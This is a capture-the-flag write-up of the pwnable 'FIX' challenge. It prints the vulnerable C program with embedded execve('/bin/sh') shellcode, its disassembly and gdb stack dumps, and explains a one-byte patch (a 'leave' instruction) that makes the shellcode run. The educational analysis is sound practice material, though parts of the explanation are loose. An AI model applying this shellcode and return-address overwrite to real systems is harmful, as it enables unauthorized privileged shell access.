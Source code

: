 ```yaml
---
layout: post
title:  "Pwnable: FIX Write-up"
description: Write-up of "FIX" problem
img: no image
date: 2016-03-07  +0200
---
```


Below is the source code of vulnerable binary file.  

```c
#include <stdio.h>

// 23byte shellcode from  
// http://shell-storm.org/shellcode/files/shellcode-827.php
char sc[] = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
                "\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";

void shellcode(){
        // a buffer we are about to exploit!
        char buf[20];

        // prepare shellcode on executable stack!
        strcpy(buf, sc);

        // overwrite return address!
        *(int*)(buf+32) = buf;

        printf("get shell\n");
}

int main(){
        printf("What the hell is wrong with my shellcode??????\n");
        printf("I just copied and pasted it from shell-storm.org :(\n");
        printf("Can you fix it for me?\n");

        unsigned int index=0;
        printf("Tell me the byte index to be fixed : ");
        scanf("%d", &index);
        fflush(stdin);

        if(index > 22)  return 0;

        int fix=0;
        printf("Tell me the value to be patched : ");
        scanf("%d", &fix);

        // patching my shellcode
        sc[index] = fix;

        // this should work..
        shellcode();
        return 0;
}

```

If you analyze binary file, you could figure out that we could modify 1 byte of shellcode, and we must leverage this vulnerability to obtain privileged shell.  
The shellcode is embedded in the binary and I have checked whether it is valid shellcode as below:  

> xor    %eax,%eax  
> push   %eax  
> push   $0x68732f2f  
> push   $0x6e69622f  
> mov    %esp,%ebx  
> push   %eax  
> push   %ebx  
> mov    %esp,%ecx  
> mov    $0xb,%al  
> int    $0x80  

Indeed it is valud shellcoded.  
To briefly explain meaning of "push $0x68732f2f" and "push $0x6e69622f".  
This is very basic technique to create shellcode. It embeds necessary strings in the exploit code as follow:  

> push '/' ; is push 0x2f  
> push 'b' ; is push 0x62  
> push 'i' ; is push 0x69  
> push 'n' ; is push 0x6e  
> push '/' ; is push 0x2f  
> push '/' ; is push 0x2f  
> push 's' ; is push 0x73  
> push 'h' ; is push 0x68  

However, even if it is valid shellcode, If you execute the program, it crashes!!!  
You need to analyze why this is happening..  
I started analyzing using gdb.  
Let's disam shellcode function.  

> (gdb) disas shellcode  
> Dump of assembler code for function shellcode:  
> 0x080484e4 <+0>: push ebp  
> 0x080484e5 <+1>: mov ebp,esp  
> 0x080484e7 <+3>: sub esp,0x38  
> 0x080484ea <+6>: mov DWORD PTR [esp+0x4],0x804a024  
> 0x080484f2 <+14>: lea eax,[ebp-0x1c]  
> 0x080484f5 <+17>: mov DWORD PTR [esp],eax  
> 0x080484f8 <+20>: call 0x80483e0 <strcpy@plt>  
> 0x080484fd <+25>: lea eax,[ebp-0x1c]  
> 0x08048500 <+28>: lea edx,[eax+0x20]  
> 0x08048503 <+31>: lea eax,[ebp-0x1c]  
> 0x08048506 <+34>: mov DWORD PTR [edx],eax  
> 0x08048508 <+36>: mov DWORD PTR [esp],0x80486a0  
> 0x0804850f <+43>: call 0x80483f0 <puts@plt>  
> 0x08048514 <+48>: leave  
> 0x08048515 <+49>: ret  
> End of assembler dump.  

break at shellcode+6 and evaluate stack.

(gdb) x/10i *shellcode  

0x80484e4 <shellcode>: push ebp  
  
0x80484e5 <shellcode+1>: mov ebp,esp  

0x80484e7 <shellcode+3>: sub esp,0x38  

=> 0x80484ea <shellcode+6>: mov DWORD PTR [esp+0x4],0x804a024  

0x80484f2 <shellcode+14>: lea eax,[ebp-0x1c]  

0x80484f5 <shellcode+17>: mov DWORD PTR [esp],eax  

0x80484f8 <shellcode+20>: call 0x80483e0 <strcpy@plt>  

0x80484fd <shellcode+25>: lea eax,[ebp-0x1c]  

0x8048500 <shellcode+28>: lea edx,[eax+0x20]  

0x8048503 <shellcode+31>: lea eax,[ebp-0x1c]  


> (gdb) x/10wx $ebp  
> 0xfff7bed8: 0xfff7bf08 **(old ebp)** 0x080485c7 **(ret)** 0x0804874e 0xfff7bef8  
> 0xfff7bee8: 0xf772cff4 0xf75bd1a5 0xf774f660 0x00000000  
> 0xfff7bef8: 0x000000c9 0x0000000d  

You can see that return address is at 0xfff7bedc. If we could overwrite it, we could execute our shellcode.  
If you further analyze the binary code, you can find some interesting stuff is going on.

> => 0x80484fd <shellcode+25>: lea eax,[ebp-0x1c]  
> 0x8048500 <shellcode+28>: lea edx,[eax+0x20]  
> 0x8048503 <shellcode+31>: lea eax,[ebp-0x1c]  
> 0x8048506 <shellcode+34>: mov DWORD PTR [edx],eax  

> (gdb) x/10bx $ebp-0x1c --> **our shellcode is here**  
> 0xfff7bebc: 0x31 0xc0 0x50 0x68 0x2f 0x2f 0x73 0x68  
> 0xfff7bec4: 0x68 0x2f  
> (gdb) x/wx $eax+0x20 --> **this refers ret**  
> 0xfff7bedc: 0x080485c7  

this means, our shellcode will overwrite ret address with below instruction.  
awesom!    
> 0x8048506 <shellcode+34>:    mov    DWORD PTR [edx],eax   

After above instruction, ret is changes to shellcode..  
(gdb) x/10i 0xfff7bebc  

=>0x804a024 <sc>: xor eax,eax  
  
0x804a026 <sc+2>: push eax  

0x804a027 <sc+3>: push 0x68732f2f  

0x804a02c <sc+8>: push 0x6e69622f  

0x804a031 <sc+13>: mov ebx,esp  

0x804a033 <sc+15>: push eax  

0x804a034 <sc+16>: push ebx  

0x804a035 <sc+17>: mov ecx,esp  

0x804a037 <sc+19>: mov al,0xb  

0x804a039 <sc+21>: int 0x80  

so far so good. Then why the program crashes?  
The program crashes after executing below instruction.  
> => 0x804a02c <sc+8>: push 0x6e69622f

very interesting..  
The reason program crashes is that eip is increased as the instruction executed, whereas esp decreases as push instruction is executed. So, there is 5 push instructions in the shellcode..  
{% highlight markdown %}
> On the second push instruction, because esp is pointing to eip memory region, it overwrites eip and therefore, program crashes with illegal instrction.  
{% endhighlight %}

**In order to solve this problem, you need to leverage "leave" instruction to change esp value so that it does not overwrite eip. **
**0xc9 is leave instruction, and since we could modify one byte, we can change insert it into our shellcode **
**Leave instruction changes esp value to ebp value. **

For those people who do not familiar with this concept, see below  
; enter  
push ebp  
mov ebp, esp  

; leave  
mov esp, ebp  
pop ebp  
